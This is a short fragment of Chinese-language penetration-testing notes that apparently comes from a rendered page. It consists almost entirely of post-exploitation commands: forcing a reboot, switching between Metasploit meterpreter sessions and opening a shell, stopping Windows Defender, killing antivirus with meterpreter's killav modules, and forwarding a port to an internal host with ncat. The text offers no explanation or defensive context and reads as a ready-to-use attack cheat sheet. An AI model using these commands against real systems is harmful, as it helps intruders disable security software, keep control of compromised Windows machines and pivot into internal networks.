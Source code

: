 重启生效:
shutdown -r -f -t 0

```bash
msf> sessions
msf> sessions 4
meterpreter> help
# 进入 shell 1
meterpreter> shell
# 进入 shell 2
meterpreter> execute -f cmd -i -H
chcp 65001
```

04 关闭杀毒软件

关闭windefend
net stop windefend

关闭杀毒软件:
run killav
run post/windows/manage/killav


### 端口转发

ncat --sh-exec "ncat 10.249.40.227 22" -l 23333 --keep-open
